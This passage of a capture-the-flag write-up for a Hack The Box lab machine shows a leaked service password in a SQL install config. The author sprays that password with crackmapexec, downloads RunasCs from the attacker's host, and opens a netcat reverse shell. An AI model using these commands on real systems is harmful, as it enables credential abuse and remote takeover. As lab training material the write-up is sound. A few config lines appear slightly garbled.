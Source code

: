 ```
```

Where, `sql-Configuration.INI` file contains the following configurations:

```
SHELL> cat sql-Configuration.INI
[OPTIONS]
ACTION="Install"
QUIET="True"
FEATURES=SQL
INSTANCENAME="SQLEXPRESS"
INSTANCEID="SQLEXPRESS"
RSSVCACCOUNT="NT Service\ReportServer$SQLEXPRESS"
AGTSVCACCOUNT="NT AUTHORITY\NETWORK SERVICE"
AGTSVCSTARTUPTYPE="Manual"
COMMFABRICPORT="0"
COMMFABRICNETWORKLEVEL=""0"
COMMFABRICENCRYPTION="0"
MATRIXCMBRICKCOMMPORT="0"
SQLSVCSTARTUPTYPE="Automatic"
FILESTREAMLEVEL="0"
ENABLERANU="False" 
SQLCOLLATION="SQL_Latin1_General_CP1_CI_AS"
SQLSVCACCOUNT="FREELANCER\sql_svc"
SQLSVCPASSWORD="IL0v3ErenY3ager"
```

Here, `SQLSVCPASSWORD="IL0v3ErenY3ager"` is a password revealed. I will try to pass this password using crackmapexec to the users that were in users directory.

```
┌──(kali㉿kali)-[~/htb/freelancer]
└─$ crackmapexec smb 10.10.11.5 -u users.txt -p IL0v3ErenY3ager 
SMB         10.10.11.5      445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:freelancer.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.5      445    DC               [-] freelancer.htb\Administrator:IL0v3ErenY3ager STATUS_LOGON_FAILURE 
SMB         10.10.11.5      445    DC               [-] freelancer.htb\lkazanof:IL0v3ErenY3ager STATUS_LOGON_FAILURE 
SMB         10.10.11.5      445    DC               [-] freelancer.htb\lorra199:IL0v3ErenY3ager STATUS_LOGON_FAILURE 
SMB         10.10.11.5      445    DC               [+] freelancer.htb\mikasaAckerman:IL0v3ErenY3ager
```

As we can see the password for the user `mikasaAckerman` is `IL0v3ErenY3ager`.

Now, I will upload runasCs to the box and try to inject the above credentials to the memory.

To upload runascs to my target machine, i will use command: `Invoke-WebRequest "http://10.10.14.72:8000/RunasCs.exe" -OutFile "runascs.exe"`  to my current `SHELL>` session.

I ran `nc -nvlp 6969` then ran `./runascs.exe mikasaAckerman IL0v3ErenY3ager powershell -r 10.10.14.72:6969` on my current windows rev shell.
